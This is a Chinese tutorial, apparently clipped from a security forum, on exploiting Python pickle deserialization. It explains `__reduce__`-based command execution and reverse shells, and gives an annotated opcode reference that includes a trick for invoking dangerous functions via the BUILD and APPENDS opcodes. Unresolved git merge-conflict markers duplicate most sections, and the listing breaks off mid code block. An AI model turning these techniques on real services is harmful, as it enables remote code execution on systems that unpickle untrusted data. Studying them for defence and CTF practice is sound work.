



<<<<<<< HEAD
---
title: pickle 反序列化
url: https://xz.aliyun.com/t/14061
clipped_at: 2024-03-20 09:55:28
category: default
tags: 
 - xz.aliyun.com
---
=======

pickle 反序列化漏洞基础知识与绕过简析

- - -
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

## pickle 反序列化

### 简介

pickle 是 Python 的一个库，可以对一个对象进行序列化和反序列化操作。其中`__reduce__`魔法函数会在一个对象被反序列化时自动执行，我们可以通过在`__reduce__`魔法函数内植入恶意代码的方式进行任意命令执行。通常会利用到 Python 的反弹 shell.

### 前置知识

#### python 对象

<<<<<<< HEAD
在 python 中，对象的概念十分广泛.
=======
在 python 中，对象的概念十分广泛。
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

> 对象是数据和功能的结合体。Python 是一种面向对象编程语言，它使用对象来组织代码和数据。在 Python 中，几乎所有的东西都是对象，包括整数、浮点数、列表、元组、字典、函数、类等。

一个 Python 对象通常包含以下部分：

1.  **身份（Identity）**：每个对象都有一个唯一的身份标识，通常是它的内存地址。可以使用内建函数 `id()` 来获取对象的身份。
2.  **类型（Type）**：对象属于某种类型，比如整数、浮点数、字符串、列表等。可以使用内建函数 `type()` 来获取对象的类型。
3.  **值（Value）**：对象所持有的数据。不同类型的对象有不同的值。例如，整数对象的值是整数值，字符串对象的值是字符序列。
4.  **属性（Attributes）**：对象可以有零个或多个属性，这些属性是附加到对象上的数据。属性通常用于存储对象的状态信息。
5.  **方法（Methods）**：对象可以有零个或多个方法，方法是附加到对象上的函数。这些方法定义了对象可以执行的操作。

#### Python 面向对象

<<<<<<< HEAD
python 是一门面向对象的语言。也正因为 python 面向对象的特性，使得我们有更加丰富的选择进行绕过.

在 Python 中，面向对象的思想和 php 是一致的，只是定义类的代码，调用类函数和类属性的方式和 php 不同.
=======
python 是一门面向对象的语言。也正因为 python 面向对象的特性，使得我们有更加丰富的选择进行绕过。

在 Python 中，面向对象的思想和 php 是一致的，只是定义类的代码，调用类函数和类属性的方式和 php 不同。
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

python 中用`.` 调用实例的属性和方法

python 中存在类属性和实例属性，实例属性只对一个实例生效，类属性对一个类生效。定义实例属性的方法是用`__init__`魔术方法。调用类属性的方法是`类名.变量名`或者 `self.__class__.变量名`.

<<<<<<< HEAD
同样地，python 的面向对象也有私有属性，私有方法，类的继承等.

#### 序列化和反序列化

序列化就是将一个对象转换为以字符串方式存储的过程，反序列化就是将字符串重新变为一个对象的实例.

> 注意，在 linux 下和 windows 下进行序列化的操作的结果可能会有所不同，在做题时需要根据靶机的系统选择用 windows 还是 linux 进行序列化操作.
=======
同样地，python 的面向对象也有私有属性，私有方法，类的继承等。

#### 序列化和反序列化

序列化就是将一个对象转换为以字符串方式存储的过程，反序列化就是将字符串重新变为一个对象的实例。

> 注意，在 linux 下和 windows 下进行序列化的操作的结果可能会有所不同，在做题时需要根据靶机的系统选择用 windows 还是 linux 进行序列化操作。
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

#### 关于序列化和反序列化的函数

1.  `pickle.dump()`
2.  `pickle.load()`
3.  `pickle.dumps()`
4.  `pickle.loads()`

<<<<<<< HEAD
其中两个 dump 函数是把 python 对象转换为二进制对象的，两个 load 函数是把二进制对象转换为 python 对象的.

而 s 函数是指对字符串进行反序列化和序列化操作，另外两个函数是对文件进行操作.

#### python 魔术方法

和 php 类似，python 魔术方法也会在一些特定情况下被自动调用。我们尤其要注意的是`__reduce__`魔术方法，这会在反序列化过程开始时被调用，所以我们可以序列化一个`__reduce__`魔术方法中有系统命令的实例并且让服务器将它反序列化，从而达到任意命令执行的效果.

除此之外还有很多魔术方法。例如初始化函数`__init__`和构造函数`__new__`. 和 php 类似，python 中也有魔法属性。例如`__doc__`,`__name__`,`__class__`,`__base__`等.

`pickle.loads()` 会在反序列化一个实例时自动引入没有引入的库.

构造方法`__new__`

-   在实例化一个类时自动被调用，是类的构造方法.
=======
其中两个 dump 函数是把 python 对象转换为二进制对象的，两个 load 函数是把二进制对象转换为 python 对象的。

而 s 函数是指对字符串进行反序列化和序列化操作，另外两个函数是对文件进行操作。

#### python 魔术方法

和 php 类似，python 魔术方法也会在一些特定情况下被自动调用。我们尤其要注意的是`__reduce__`魔术方法，这会在反序列化过程开始时被调用，所以我们可以序列化一个`__reduce__`魔术方法中有系统命令的实例并且让服务器将它反序列化，从而达到任意命令执行的效果。

除此之外还有很多魔术方法。例如初始化函数`__init__`和构造函数`__new__`. 和 php 类似，python 中也有魔法属性。例如`__doc__`,`__name__`,`__class__`,`__base__`等。

`pickle.loads()` 会在反序列化一个实例时自动引入没有引入的库。

构造方法`__new__`

-   在实例化一个类时自动被调用，是类的构造方法。
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
-   可以通过重写`__new__`自定义类的实例化过程

初始化方法`__init__`

-   在`__new__`方法之后被调用，主要负责定义类的属性，以初始化实例

析构方法`__del__`

-   在实例将被销毁时调用
-   只在实例的所有调用结束后才会被调用

`__getattr__`

-   获取不存在的对象属性时被触发
-   存在返回值

`__setattr__`

-   设置对象成员值的时候触发
-   传入一个 self, 一个要设置的属性名称，一个属性的值

`__repr__`

-   在实例被传入 `repr()` 时被调用
-   必须返回字符串

`__call__`

-   把对象当作函数调用时触发

`__len__`

-   被传入 `len()` 时调用
-   返回一个整型

`__str__`

-   被 `str()`,`format()`,`print()` 调用时调用，返回一个字符串

#### Python 特殊属性

-   object.\_\_dict\_\_
    
    一个字典或其他类型的映射对象，用于存储对象的（可写）属性。
    
-   instance.\_*class\\*\_
    
    类实例所属的类。
    
-   class.\_*bases\\*\_
    
    由类对象的基类所组成的元组。
    
-   definition.\_*name\\*\_
    
    类、函数、方法、描述器或生成器实例的名称。
    
-   definition.\_*qualname\\*\_
    
    类、函数、方法、描述器或生成器实例的 [qualified name](https://docs.python.org/zh-cn/3.11/glossary.html#term-qualified-name)。
    

#### 栈

<<<<<<< HEAD
栈是一种存储数据的结构。栈有压栈和弹栈两种操作.

可以把栈看做一个弹夹，先进栈的数据后出栈，压栈就像压子弹，弹栈就像弹子弹.

#### 什么是 PVM

pickle 是一种栈语言，它由一串串 opcode（指令集）组成。该语言的解析是依靠 Pickle Virtual Machine （PVM）进行的.
=======
栈是一种存储数据的结构。栈有压栈和弹栈两种操作。

可以把栈看做一个弹夹，先进栈的数据后出栈，压栈就像压子弹，弹栈就像弹子弹。

#### 什么是 PVM

pickle 是一种栈语言，它由一串串 opcode（指令集）组成。该语言的解析是依靠 Pickle Virtual Machine（PVM）进行的。
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

为什么要学习 pickle?

> pickle 实际上可以看作一种**独立的语言**，通过对 `opcode` 的编写可以进行 Python 代码执行、覆盖变量等操作。直接编写的 `opcode` 灵活性比使用 pickle 序列化生成的代码更高，并且有的代码不能通过 pickle 序列化得到（pickle 解析能力大于 pickle 生成能力）。

PVM 由以下三部分组成

<<<<<<< HEAD
-   指令处理器：从流中读取 `opcode` 和参数，并对其进行解释处理。重复这个动作，直到遇到。这个结束符后停止。 最终留在栈顶的值将被作为反序列化对象返回。
=======
-   指令处理器：从流中读取 `opcode` 和参数，并对其进行解释处理。重复这个动作，直到遇到。这个结束符后停止。最终留在栈顶的值将被作为反序列化对象返回。
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    
-   stack：由 Python 的 **`list`** 实现，被用来临时存储数据、参数以及对象。
    
-   memo：由 Python 的 **`dict`** 实现，为 PVM 的整个生命周期提供存储。
    

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240308140039-30733f0c-dd11-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240308140039-30733f0c-dd11-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

#### 常用 opcode

在 Python 的 pickle.py 中，我们能够找到所有的 opcode 及其解释，常用的 opcode 如下，这里我们以 V0 版本为例

| 指令  | 描述  | 具体写法 | 栈上的变化 |
| --- | --- | --- | --- |
| c   | 获取一个全局对象或 import 一个模块 | c\[module\]\\n\[instance\]\\n | 获得的对象入栈 |
| o   | 寻找栈中的上一个 MARK，以之间的第一个数据（必须为函数）为 callable，第二个到第 n 个数据为参数，执行该函数（或实例化一个对象） | o   | 这个过程中涉及到的数据都出栈，函数的返回值（或生成的对象）入栈 |
| i   | 相当于 c 和 o 的组合，先获取一个全局函数，然后寻找栈中的上一个 MARK，并组合之间的数据为元组，以该元组为参数执行全局函数（或实例化一个对象） | i\[module\]\\n\[callable\]\\n | 这个过程中涉及到的数据都出栈，函数返回值（或生成的对象）入栈 |
| N   | 实例化一个 None | N   | 获得的对象入栈 |
| S   | 实例化一个字符串对象 | S'xxx'\\n（也可以使用双引号、\\' 等 python 字符串形式） | 获得的对象入栈 |
| V   | 实例化一个 UNICODE 字符串对象 | Vxxx\\n | 获得的对象入栈 |
| I   | 实例化一个 int 对象 | Ixxx\\n | 获得的对象入栈 |
| F   | 实例化一个 float 对象 | Fx.x\\n | 获得的对象入栈 |
| R   | 选择栈上的第一个对象作为函数、第二个对象作为参数（第二个对象必须为元组），然后调用该函数 | R   | 函数和参数出栈，函数的返回值入栈 |
| .   | 程序结束，栈顶的一个元素作为 pickle.loads () 的返回值 | .   | 无   |
| (   | 向栈中压入一个 MARK 标记 | (   | MARK 标记入栈 |
| t   | 寻找栈中的上一个 MARK，并组合之间的数据为元组 | t   | MARK 标记以及被组合的数据出栈，获得的对象入栈 |
| )   | 向栈中直接压入一个空元组 | )   | 空元组入栈 |
| l   | 寻找栈中的上一个 MARK，并组合之间的数据为列表 | l   | MARK 标记以及被组合的数据出栈，获得的对象入栈 |
| \]  | 向栈中直接压入一个空列表 | \]  | 空列表入栈 |
| d   | 寻找栈中的上一个 MARK，并组合之间的数据为字典（数据必须有偶数个，即呈 key-value 对） | d   | MARK 标记以及被组合的数据出栈，获得的对象入栈 |
| }   | 向栈中直接压入一个空字典 | }   | 空字典入栈 |
| p   | 将栈顶对象储存至 memo\_n | pn\\n | 无   |
| g   | 将 memo\_n 的对象压栈 | gn\\n | 对象被压栈 |
| 0   | 丢弃栈顶对象 | 0   | 栈顶对象被丢弃 |
| b   | 使用栈中的第一个元素（储存多个属性名：属性值的字典）对第二个元素（对象实例）进行属性设置 | b   | 栈上第一个元素出栈 |
| s   | 将栈的第一个和第二个对象作为 key-value 对，添加或更新到栈的第三个对象（必须为列表或字典，列表以数字作为 key）中 | s   | 第一、二个元素出栈，第三个元素（列表或字典）添加新值或被更新 |
| u   | 寻找栈中的上一个 MARK，组合之间的数据（数据必须有偶数个，即呈 key-value 对）并全部添加或更新到该 MARK 之前的一个元素（必须为字典）中 | u   | MARK 标记以及被组合的数据出栈，字典被更新 |
| a   | 将栈的第一个元素 append 到第二个元素 (列表) 中 | a   | 栈顶元素出栈，第二个元素（列表）被更新 |
| e   | 寻找栈中的上一个 MARK，组合之间的数据并 extends 到该 MARK 之前的一个元素（必须为列表）中 | e   | MARK 标记以及被组合的数据出栈，列表被更新 |

比较全的指令集

<<<<<<< HEAD
```plain
# Pickle opcodes.  See pickletools.py for extensive docs.  The listing
# here is in kind-of alphabetical order of 1-character pickle code.
# pickletools groups them by purpose.
# 说明:
# 1.如果对栈顶元素只说了取出,而没有说弹出的话那就说明只是将栈顶元素复制一份放到一个变量或者就是后面的操作对栈顶元素进行更新修改,但是这个栈顶元素是不会弹出的
# 2.部分说明中对数据进行操作先弹出然后进行操作再进行压栈,但是对照源码可能是对栈数组直接进行直接截取而并没有pop弹出或者append的压栈操作,我这里描述为弹出和压栈的过程是为了便于理解
# 3.用于指定后面需要读取的数据大小的字节读出来之后,有可能是按照字符字面大小读取,也可能是按照其16进制大小进行数据读取,例如字符'1'='\x31',0x31=49可能是读取1字节大小也肯能是读取49字节大小,注意我的注释描述
# 4._struct.unpack解压<i格式数据的时候需要传入4字节大小的数据,然后会把4个字节左右顺序调换,得到一个8位的16进制数,最后将其转为一个10进制整数,例如_struct.unpack('<i', b'\x00\x01\x00\x00')[0]=>0x00001000=>256
# 5.struct.unpack解压<Q格式数据则是需要传入8字节大小数据,转换操作同上,例如unpack('<Q', b'\x00\x01\x00\x00\x00\x00\x00\x00')[0] => 0x0000000000000100 => 256
MARK           = b'('   #向栈中压入一个Mark标记
STOP           = b'.'   #相当于停止当前的反序列化过程
POP            = b'0'   #从栈中pop出一个元素,就是删除栈顶元素
POP_MARK       = b'1'   #从栈中不断pop元素直到遇到Mark标记
DUP            = b'2'   #向栈中再压入一个当前的栈顶元素,就是复制一份当前栈顶元素然后进行压栈
FLOAT          = b'F'   #读取当前行到行末尾,然后转为float类型,向栈中压入一个float浮点数
INT            = b'I'   #向栈中压入一个int整数,整数就是当前行的最后一个字节,不过如果整数为01的时候压入的是True,为00的时候压入的是False
BININT         = b'J'   #从后面的输入中读取4个字节并且使用unpack通过'<i'的格式将4字节的buffer数据解包转为int类型,后面不能换行,直接家下一步的操作b"(S'a'\nK\x01\x01\x01\x01."
BININT1        = b'K'   #和上面BININT一样,不过K操作只读取一个字节的数据b"(S'a'\nK\x01."
LONG           = b'L'   #读取当前行到行末尾,然后转为int类型,但如果后面是字符L的话会先去掉最后一个字符L再转int
BININT2        = b'M'   #从后面的输入中读取2个字节并且使用unpack通过'<H'的格式将2字节的buffer作为一个2进制数解包为int,后面不能换行,直接加下一步的操作b"(S'a'\nM\x01\x01."
NONE           = b'N'   #向栈中压入一个None元素,后面不能换行,直接加下一步的操作b"(S'a'\nN."
PERSID         = b'P'   #读取当前行到行末尾,将读取到的数据作为id,通过persistent_load函数获得obj对象返回后将obj对象压栈,默认情况没用,要重写persistent_load函数才能生效
BINPERSID      = b'Q'   #和上面作用一样,从当前栈中弹出一个元素作为id,通过persistent_load...
REDUCE         = b'R'   #从当前栈中弹出两次元素,第一次是函数参数args,第二次是函数func,执行func(args)
STRING         = b'S'   #向栈中压入一个string字符串,内容就是后面的数据,后面的字符串第一个和最后一个必须是单引号b"(S'a'\nS''a''\n."
BINSTRING      = b'T'   #从后面数据读取4字节数据,通过unpack使用<i格式将数据解压后变为int类型, 然后将其作为一个长度, 后面读取这个指定长度的数据作为字符串进行压栈b"(S'a'\nT\x10\x00\x00\x000123456789abcdef."
# _struct.unpack('<i', b"\x10\x00\x00\x00") => (16,)
SHORT_BINSTRING= b'U'   #先读取一个字节数据作为长度,然后按照这个长度读取字符串,读出的字符串压栈
UNICODE        = b'V'   #读出当前行后面的全部数据,然后进行Unicode解码,将解码内容压栈b'V\\u0061\n.'
BINUNICODE     = b'X'   #读出4字节数据通过unpack使用<I格式解压,将解压得到的数据作为长度,然后进行数据读取b'X\x10\x00\x00\x00abcdef0123456789.'
APPEND         = b'a'   #先pop出栈一个变量var1,然后获取当前栈顶元素var2,执行栈顶元素的append函数,就是将一开始的栈顶元素弹出,然后又加到下一个栈顶数组中b"]S'S1nKk'\na." => 得到['S1nKk']
BUILD          = b'b'   #这个操作就是设置元素属性的操作
# 先pop出栈一个变量var1,然后获取当前栈顶元素var2,获取var2的__setstate__子成员作为var3,如果var3非空,那就执行var3(var1),这个操作正常就是通过__setstate__设置变量的属性
# 但是上面的var3为空也有别的处理:
# 1.检查var1是否为tuple类型且长度为2,如果是的话那就将其分别赋值为state,slotstate
# 2.检查state是否为空,如果不为空尝试取出state.items()然后使用k,v键值对的方式便利,最后通过修改var2.__dict__的方式修改var2的属性,也就是使得var2[k]=v,var2.k=v
# 3.检查slotstate是否为空,如果不为空和第2步一样,取出slotstate.items()通过k,v键值对方式遍历,然后使用setattr方法设置var2属性,最后效果也是var2[k]=v,var2.k=v
GLOBAL         = b'c'   #导入一个模块,首先读取当前行后面的全部内容适应utf-8解码得到的字符串作为module,然后再读出下一行的内容同样解析出字符串作为那么,最后导入module.name这个包
DICT           = b'd'   #将栈中的数据弹出到上一个Mark为止,然后按照key:value的方式逐个解析然后放入到一个字典中,将最后得到的字典压栈b"(S'key1'\nS'val1'\nS'key2'\nS'val2'\nd." => {'key1': 'val1', 'key2': 'val2'}
EMPTY_DICT     = b'}'   #没什么好说的,就是往栈中压入一个空字典
APPENDS        = b'e'   #先将栈中元素不断弹出知道Mark标记,然后将弹出的全部元素放入items中,再取出栈顶作为list_obj,之后执行下面两步操作:
# 1.先取出extend=list_obj.extend,然后执行extend(items)
# 2.取出append = list_obj.append,然后使用for循环遍历items得到item,然后每次循环都执行一次append(item)
# 看到这里应该想到函数触发的方法,我们只需要使用b操作将list_obj的extend改为一个危险的函数方法,然后再让参数进入items,就可以通过extend(items)的方式调用任意构造的危险函数了
GET            = b'g'   #读取后面的全部本行数据,然后转为int类型放入变量i中,使用i作为索引,从缓存区取出数据mem[i],然后将这个从缓存中取出的变量压栈
BINGET         = b'h'   #后面读取一个字节的数据,然后使用字符16进制大小作为下标索引,从缓存mem中读数据,将读出的内容压栈,下面就是一个获取缓存中下标为1的数据的实例b"S'h0cksr'\np1\nS't'\n0h\x01."
INST           = b'i'   #两次pop出栈读出数据并且均进行解码操作使其变为字符串格式,
# 1. 第一第二次弹出的数据分别放入module和name中,先导入moudle模块,然后name通过.逐个获取出里面的子成员,最后返回目标子成员(可能是函数也可能是类或变量)var1
# 2. 继续进行出栈,直到遇到Mark标志,将出栈的数据作为参数,var1位方法,执行var1(Mark弹出数据)
# 3. 将生成的实例化对象压栈
LONG_BINGET    = b'j'   #先读出4字节大小数据流,然后通过unpack使用<I格式解压得到int类型数据i,将i作为下标,从缓存中获取变量mem[i],将获取到的数据压栈
LIST           = b'l'   #将上一次Mark之后的数据全部弹出,并且将其存放到一个数组中,然后在将这个数组压栈b"(S'S1nKk'\np1\nS't'\nl."
EMPTY_LIST     = b']'   #没什么好说,往栈中压入一个空数组
OBJ            = b'o'   #先是将上一次Mark之后的数据全部弹出,得到一个数组var1,然后又在var1中pop取出最后一个数据作为var2,之后执行以下过程:
# 1.检查弹出数据后的var1数组是否为空,如果var1非空,或者弹出的var2属于type类型,或者弹出的var2有__getinitargs__属性成员,那么就会执行var2(var1)
# 2.如果以上条件均不满足,那就执行var2.__new__(var2)
# 3.将执行结果压入栈中
PUT            = b'p'   #读取后面全部当前行的数据,然后转为int类型的变量i,然后赋值当前栈顶元素存到memo[i]中
BINPUT         = b'q'   #和上一个一样,不同的是下标i是通过读取1个字节的数据,然后直接当做下标
LONG_BINPUT    = b'r'   #和上一个一样,不同的是下标i是通过读取4个字节的数据,然后通过unpack使用<I模式解压得到的整数当做下标
SETITEM        = b's'   #先在栈中pop弹出第一个数据作为value,然后在pop弹出第二个元素作为key,再获取当前栈顶元素记为dict,给栈顶元素赋值dict[key]=value
TUPLE          = b't'   #弹出上一次Mark之后的全部数据大农一个list数组中,然后使用tuple函数将其转为元组格式再把这个元组压入栈中
EMPTY_TUPLE    = b')'   #没什么好说,往栈中压入一个空元组
SETITEMS       = b'u'   #先弹出上一次Mark之后的全部元素放入一个数组items中,然后获取栈顶元素记为dict,通过i=0,2,3...获取items中的数据,执行dict[items[i]] = items[i + 1]给栈顶的字典元素添加键值对
BINFLOAT       = b'G'   #先读取8字节数据,然后使用unpack通过<d格式的解压,将得到的float数据压栈
=======
```bash
# Pickle opcodes.  See pickletools.py for extensive docs.  The listing
# here is in kind-of alphabetical order of 1-character pickle code.
# pickletools groups them by purpose.
# 说明：
# 1.如果对栈顶元素只说了取出，而没有说弹出的话那就说明只是将栈顶元素复制一份放到一个变量或者就是后面的操作对栈顶元素进行更新修改，但是这个栈顶元素是不会弹出的
# 2.部分说明中对数据进行操作先弹出然后进行操作再进行压栈，但是对照源码可能是对栈数组直接进行直接截取而并没有 pop 弹出或者 append 的压栈操作，我这里描述为弹出和压栈的过程是为了便于理解
# 3.用于指定后面需要读取的数据大小的字节读出来之后，有可能是按照字符字面大小读取，也可能是按照其 16 进制大小进行数据读取，例如字符'1'='\x31',0x31=49 可能是读取 1 字节大小也肯能是读取 49 字节大小，注意我的注释描述
# 4._struct.unpack 解压<i 格式数据的时候需要传入 4 字节大小的数据，然后会把 4 个字节左右顺序调换，得到一个 8 位的 16 进制数，最后将其转为一个 10 进制整数，例如_struct.unpack('<i', b'\x00\x01\x00\x00')[0]=>0x00001000=>256
# 5.struct.unpack 解压<Q 格式数据则是需要传入 8 字节大小数据，转换操作同上，例如 unpack('<Q', b'\x00\x01\x00\x00\x00\x00\x00\x00')[0] => 0x0000000000000100 => 256
MARK           = b'('   #向栈中压入一个 Mark 标记
STOP           = b'.'   #相当于停止当前的反序列化过程
POP            = b'0'   #从栈中 pop 出一个元素，就是删除栈顶元素
POP_MARK       = b'1'   #从栈中不断 pop 元素直到遇到 Mark 标记
DUP            = b'2'   #向栈中再压入一个当前的栈顶元素，就是复制一份当前栈顶元素然后进行压栈
FLOAT          = b'F'   #读取当前行到行末尾，然后转为 float 类型，向栈中压入一个 float 浮点数
INT            = b'I'   #向栈中压入一个 int 整数，整数就是当前行的最后一个字节，不过如果整数为 01 的时候压入的是 True，为 00 的时候压入的是 False
BININT         = b'J'   #从后面的输入中读取 4 个字节并且使用 unpack 通过'<i'的格式将 4 字节的 buffer 数据解包转为 int 类型，后面不能换行，直接家下一步的操作 b"(S'a'\nK\x01\x01\x01\x01."
BININT1        = b'K'   #和上面 BININT 一样，不过 K 操作只读取一个字节的数据 b"(S'a'\nK\x01."
LONG           = b'L'   #读取当前行到行末尾，然后转为 int 类型，但如果后面是字符 L 的话会先去掉最后一个字符 L 再转 int
BININT2        = b'M'   #从后面的输入中读取 2 个字节并且使用 unpack 通过'<H'的格式将 2 字节的 buffer 作为一个 2 进制数解包为 int，后面不能换行，直接加下一步的操作 b"(S'a'\nM\x01\x01."
NONE           = b'N'   #向栈中压入一个 None 元素，后面不能换行，直接加下一步的操作 b"(S'a'\nN."
PERSID         = b'P'   #读取当前行到行末尾，将读取到的数据作为 id，通过 persistent_load 函数获得 obj 对象返回后将 obj 对象压栈，默认情况没用，要重写 persistent_load 函数才能生效
BINPERSID      = b'Q'   #和上面作用一样，从当前栈中弹出一个元素作为 id，通过 persistent_load...
REDUCE         = b'R'   #从当前栈中弹出两次元素，第一次是函数参数 args，第二次是函数 func，执行 func(args)
STRING         = b'S'   #向栈中压入一个 string 字符串，内容就是后面的数据，后面的字符串第一个和最后一个必须是单引号 b"(S'a'\nS''a''\n."
BINSTRING      = b'T'   #从后面数据读取 4 字节数据，通过 unpack 使用<i 格式将数据解压后变为 int 类型，然后将其作为一个长度，后面读取这个指定长度的数据作为字符串进行压栈 b"(S'a'\nT\x10\x00\x00\x000123456789abcdef."
# _struct.unpack('<i', b"\x10\x00\x00\x00") => (16,)
SHORT_BINSTRING= b'U'   #先读取一个字节数据作为长度，然后按照这个长度读取字符串，读出的字符串压栈
UNICODE        = b'V'   #读出当前行后面的全部数据，然后进行 Unicode 解码，将解码内容压栈 b'V\\u0061\n.'
BINUNICODE     = b'X'   #读出 4 字节数据通过 unpack 使用<I 格式解压，将解压得到的数据作为长度，然后进行数据读取 b'X\x10\x00\x00\x00abcdef0123456789.'
APPEND         = b'a'   #先 pop 出栈一个变量 var1，然后获取当前栈顶元素 var2，执行栈顶元素的 append 函数，就是将一开始的栈顶元素弹出，然后又加到下一个栈顶数组中 b"]S'S1nKk'\na." => 得到['S1nKk']
BUILD          = b'b'   #这个操作就是设置元素属性的操作
# 先 pop 出栈一个变量 var1，然后获取当前栈顶元素 var2，获取 var2 的__setstate__子成员作为 var3，如果 var3 非空，那就执行 var3(var1),这个操作正常就是通过__setstate__设置变量的属性
# 但是上面的 var3 为空也有别的处理：
# 1.检查 var1 是否为 tuple 类型且长度为 2，如果是的话那就将其分别赋值为 state,slotstate
# 2.检查 state 是否为空，如果不为空尝试取出 state.items() 然后使用 k,v 键值对的方式便利，最后通过修改 var2.__dict__的方式修改 var2 的属性，也就是使得 var2[k]=v,var2.k=v
# 3.检查 slotstate 是否为空，如果不为空和第 2 步一样，取出 slotstate.items() 通过 k,v 键值对方式遍历，然后使用 setattr 方法设置 var2 属性，最后效果也是 var2[k]=v,var2.k=v
GLOBAL         = b'c'   #导入一个模块，首先读取当前行后面的全部内容适应 utf-8 解码得到的字符串作为 module，然后再读出下一行的内容同样解析出字符串作为那么，最后导入 module.name 这个包
DICT           = b'd'   #将栈中的数据弹出到上一个 Mark 为止，然后按照 key:value 的方式逐个解析然后放入到一个字典中，将最后得到的字典压栈 b"(S'key1'\nS'val1'\nS'key2'\nS'val2'\nd." => {'key1': 'val1', 'key2': 'val2'}
EMPTY_DICT     = b'}'   #没什么好说的，就是往栈中压入一个空字典
APPENDS        = b'e'   #先将栈中元素不断弹出知道 Mark 标记，然后将弹出的全部元素放入 items 中，再取出栈顶作为 list_obj，之后执行下面两步操作：
# 1.先取出 extend=list_obj.extend，然后执行 extend(items)
# 2.取出 append = list_obj.append，然后使用 for 循环遍历 items 得到 item，然后每次循环都执行一次 append(item)
# 看到这里应该想到函数触发的方法，我们只需要使用 b 操作将 list_obj 的 extend 改为一个危险的函数方法，然后再让参数进入 items，就可以通过 extend(items) 的方式调用任意构造的危险函数了
GET            = b'g'   #读取后面的全部本行数据，然后转为 int 类型放入变量 i 中，使用 i 作为索引，从缓存区取出数据 mem[i],然后将这个从缓存中取出的变量压栈
BINGET         = b'h'   #后面读取一个字节的数据，然后使用字符 16 进制大小作为下标索引，从缓存 mem 中读数据，将读出的内容压栈，下面就是一个获取缓存中下标为 1 的数据的实例 b"S'h0cksr'\np1\nS't'\n0h\x01."
INST           = b'i'   #两次 pop 出栈读出数据并且均进行解码操作使其变为字符串格式，
# 1. 第一第二次弹出的数据分别放入 module 和 name 中，先导入 moudle 模块，然后 name 通过。逐个获取出里面的子成员，最后返回目标子成员 (可能是函数也可能是类或变量)var1
# 2. 继续进行出栈，直到遇到 Mark 标志，将出栈的数据作为参数，var1 位方法，执行 var1(Mark 弹出数据)
# 3. 将生成的实例化对象压栈
LONG_BINGET    = b'j'   #先读出 4 字节大小数据流，然后通过 unpack 使用<I 格式解压得到 int 类型数据 i，将 i 作为下标，从缓存中获取变量 mem[i],将获取到的数据压栈
LIST           = b'l'   #将上一次 Mark 之后的数据全部弹出，并且将其存放到一个数组中，然后在将这个数组压栈 b"(S'S1nKk'\np1\nS't'\nl."
EMPTY_LIST     = b']'   #没什么好说，往栈中压入一个空数组
OBJ            = b'o'   #先是将上一次 Mark 之后的数据全部弹出，得到一个数组 var1，然后又在 var1 中 pop 取出最后一个数据作为 var2，之后执行以下过程：
# 1.检查弹出数据后的 var1 数组是否为空，如果 var1 非空，或者弹出的 var2 属于 type 类型，或者弹出的 var2 有__getinitargs__属性成员，那么就会执行 var2(var1)
# 2.如果以上条件均不满足，那就执行 var2.__new__(var2)
# 3.将执行结果压入栈中
PUT            = b'p'   #读取后面全部当前行的数据，然后转为 int 类型的变量 i，然后赋值当前栈顶元素存到 memo[i]中
BINPUT         = b'q'   #和上一个一样，不同的是下标 i 是通过读取 1 个字节的数据，然后直接当做下标
LONG_BINPUT    = b'r'   #和上一个一样，不同的是下标 i 是通过读取 4 个字节的数据，然后通过 unpack 使用<I 模式解压得到的整数当做下标
SETITEM        = b's'   #先在栈中 pop 弹出第一个数据作为 value，然后在 pop 弹出第二个元素作为 key，再获取当前栈顶元素记为 dict，给栈顶元素赋值 dict[key]=value
TUPLE          = b't'   #弹出上一次 Mark 之后的全部数据大农一个 list 数组中，然后使用 tuple 函数将其转为元组格式再把这个元组压入栈中
